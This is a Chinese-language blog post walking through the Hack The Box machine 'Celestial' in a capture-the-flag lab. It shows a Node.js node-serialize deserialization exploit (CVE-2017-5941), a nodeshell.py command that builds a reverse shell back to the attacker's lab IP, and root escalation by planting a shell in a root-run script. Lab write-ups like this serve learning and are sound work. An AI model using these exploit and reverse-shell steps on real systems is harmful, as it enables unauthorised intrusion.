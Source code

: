 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/NrHH8oAB2NLPf_P7R8Gz-A)

一个每日分享渗透小技巧的公众号![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCWsznInTj3b9TFYtTDIYG6lDGJZYYSv72NsVWF24Kjlo4MT29tEOQSg/640?wx_fmt=png)

  

  

大家好，这里是 **大余安全** 的第 **126** 篇文章，本公众号会每日分享攻防渗透技术给大家。

![](https://mmbiz.qpic.cn/mmbiz_png/c6lNmDMELgVefhqyswkhNcG53sbopmNFb6w6BGUZCXq83PjE80maj43XT7BjARoN3xKWuFdAc2IBPs0urI5ktA/640?wx_fmt=png)

靶机地址：https://www.hackthebox.eu/home/machines/profile/130

靶机难度：中级（4.8/10）

靶机发布日期：2018 年 8 月 25 日

靶机描述：

Celestial is a medium difficulty machine which focuses on deserialization exploits. It is not the most realistic, however it provides a practical example of abusing client-size serialized objects in NodeJS framework.

请注意：对于所有这些计算机，我是通过平台授权允许情况进行渗透的。我将使用 Kali Linux 作为解决该 HTB 的攻击者机器。这里使用的技术仅用于学习教育目的，如果列出的技术用于其他任何目标，我概不负责。

  

一、信息收集

![](https://mmbiz.qpic.cn/mmbiz_png/Clq0o4fE5u6X5A1maTmqcvtEibdrsDO41kZPibRCHsX3Koj69GFK2qOyPwdcrgcDkHklrdJzBCiaQPuMVe11oSYHA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QW1U7wqRuYLvoic06oY6l1j2U14ibNHJXBXruDhicsNXbkmDWcB5upMdXA/640?wx_fmt=png)

可以看到靶机的 IP 是 10.10.10.85....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QiaiboI5iaOzcUY0Idaz1iba5FnQhiaBoEB3BjVk9B2hHzhia00iaw0eicPjvkg/640?wx_fmt=png)

Nmap 发现了 3000 端口运行着 http 服务，Node.js 框架....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QzuaTxJNqjQrxc9GbNU6EL8iciclY842CDXcFnSldLcRMicU5ibASFGo67Q/640?wx_fmt=png)

刚进入发现 404，查看前端源码也没信息....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Qje65Miccbg8gQ5NGPA7TFIYRdAwFyqLWicNELRdA3auBoEljLqh8qcIA/640?wx_fmt=png)

在刷新页面后更新了信息... 显示以上结果... 前端还是没信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QBJ1ReibpicO6kcm7Aw0lVZzXL8Oes5hoISot6nnnQHC79icfVUrtLB0lg/640?wx_fmt=png)

burpsuit 拦截发现了一串 base64 值....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QiaicqJMRx94usqC90lJ3DvEQKB5z4MG9XEXR63nepCZuq7KSp8SgouSw/640?wx_fmt=png)

可以知道这是一个 Node.js Express 框架，根据输出结果，可以修改 cookie 变换输出值...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QJZWhfMb8lK6XEVCticXlLaO4HB2b7NY80Gc68b7BGf5SlrNAVcvB3EA/640?wx_fmt=png)

```
echo eyJ1c2VybmFtZSI6IkR1bW15IiwiY291bnRyeSI6IklkayBQcm9iYWJseSBTb21ld2hlcmUgRHVtYiIsImNpdHkiOiJMYW1ldG93biIsIm51bSI6IjIifQ== | base64 -d | sed 's/"2"/"5"/g' | base64 -w0
```

通过 "num":"2" 更改 "num":"5" 并使用 base64 对其进行了编码输入到 burp 中，输出结果知道这是 node-serialize 模块导致的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QLHLNZcZC2IHQWVbMZ79Thbib3NpFG9GiacPH6byt2KvooL7AMUWtia2PQ/640?wx_fmt=png)

这里更直观的看到这是由 node-serialize 模块导致的，该模块是在 unserialize 函数模块中导致无法验证用户提供的输入，从而执行了 JSON 值内的所有内容...

开始利用反序列化漏洞提权...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Qn7xEIYc1Vqmxee7HGwYcNxCWic03GibH0VUUqibEEJd9Ufia8KywDOOUxQ/640?wx_fmt=png)

```
https://hd7exploit.wordpress.com/2017/05/29/exploiting-node-js-deserialization-bug-for-remote-code-execution-cve-2017-5941/
```

这里详细讲述了 node-serialize 模块的利用方式...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QyBzZSlsmu2WF3CaFrulShyP6zFXV4Gx90Y6PyCsl8s0GYObfcYLOlQ/640?wx_fmt=png)

按照文章利用即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Qo1tGmdEDtkPkuxxnUIEIHhOYO8oEppLgLbzRcgTthFpMqoF2KgIC0w/640?wx_fmt=png)

```
sudo python nodeshell.py -r -h 10.10.14.51 -p 6666 -e -o
```

创建好 shellcode....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Qeo8W8kU2CsMsaSiclqsmicy2RtcPS69Rfd8WAg8A3z5gZnTo7ibSrzlicA/640?wx_fmt=png)

然后利用 burpsuit 注入 shell 即可...

成功获得反向外壳....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QDlmJCj5cWfiaCxauLkWKxqNK84kpHDnd46lgtfmFyP0zcU2sHFE7osw/640?wx_fmt=png)

获得了 user_flag 信息....

查看到还存在 script.py 脚本信息...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Qq8wBohpaGoVLk4pDgOMFf9CoXiaELib38rTe41srXYpib3uiamLoz4oErg/640?wx_fmt=png)

该脚本很可疑，我下载了 pspy 监测后端进程... 上传

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QHLy3fQQiaTT9kKDib4gMcuKq0Z1oGZNXqAsh0UYjiaSV2YPwhheHbZe8A/640?wx_fmt=png)

果然发现了该程序是在运行了... 但不是 root 权限？

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7QLjT9Dfk19eBrM7wFjVM4COKvTzWKPfpoyicQQoQ9v8aGNJzwfq8oN0g/640?wx_fmt=png)

查看了后端日志后... 发现该程序在执行 root 权限.... 尝试植入 shell

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Q3QQzb8Xr0zSaQD1Vt5LXsOLZQfB4PibMJNAtFngcH5ibJ9az4w3wgmlA/640?wx_fmt=png)

利用简单 shell，echo 植入即可....

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KMcExUpOO4eNfb9lU10mA7Q0rMicgR6nvE8CqOBG1yZE5GwjxCj9QNa0NsiamL1PvN7Hez0IDpBNT1w/640?wx_fmt=png)

等待了好久... 估计 10 分钟... 才获得了反向外壳...pspy32 监测一直没运行 script.py...

![](https://mmbiz.qpic.cn/mmbiz_png/sGWlDp8sFCl67vCmcZr3JtQP0jB8suQiaKaKCVYPOezloiaicS8xMkAriaAQd3dTOPXicBTVStlX66kEffEWJOiczUTA/640?wx_fmt=png)

获得了 root 权限，并获得了 root_flag 信息...

简单的提权...

由于我们已经成功得到 root 权限查看 user 和 root.txt，因此完成这台中级的靶机，希望你们喜欢这台机器，请继续关注大余后期会有更多具有挑战性的机器，一起练习学习。

如果你有其他的方法，欢迎留言。要是有写错了的地方，请你一定要告诉我。要是你觉得这篇博客写的还不错，欢迎分享给身边的人。

![](https://mmbiz.qpic.cn/mmbiz_png/o62ddIpxjBd0kv6p3zb6uf1GiaCo9PiaF12hWQQSurxFPuVIDtsNTgUpjjvmib7GxKXNePVMAwJfzuib52MWoORPYg/640?wx_fmt=png)

如果觉得这篇文章对你有帮助，可以转发到朋友圈，谢谢小伙伴~

![](https://mmbiz.qpic.cn/mmbiz_png/c5xrRn4430AnqkfAJc38Vpnc5XiaADLTjiciciaibYU4EHw3Nuh7YMtuB0hz3sb8Em9iatt5skAsibuuysPLdLY5LtWOw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/p3lIbvldZiabdI5iaCb3icRhtygUuo2sp6Hcdq0ANlpy5W3gL628uq032jsoVnGnl6HdGrgDXjfazFtkp6IInibDdQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPqjaFWwyrrhiciahSpOibxqKvSIFX0iaPcG00CjYIwQDwIDeIicmFMlOVNyhWYVSE8pJK566UK3YOUNWQ/640?wx_fmt=png)

随缘收徒中~~ **随缘收徒中~~** **随缘收徒中~~**

欢迎加入渗透学习交流群，想入群的小伙伴们加我微信，共同进步共同成长！

![](https://mmbiz.qpic.cn/mmbiz_png/ndicuTO22p6ibN1yF91ZicoggaJJZX3vQ77Vhx81O5GRyfuQoBRjpaUyLOErsSo8PwNYlT1XzZ6fbwQuXBRKf4j3Q/640?wx_fmt=png)  

大余安全

一个全栈渗透小技巧的公众号

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KPTQKiaXksbZia7PmHLPX2vnCSsnsc7MHh257oYRic1MOT8qibABNUEnTq9DUL7QBwnS52EheJf4m8iaTQ/640?wx_fmt=png)
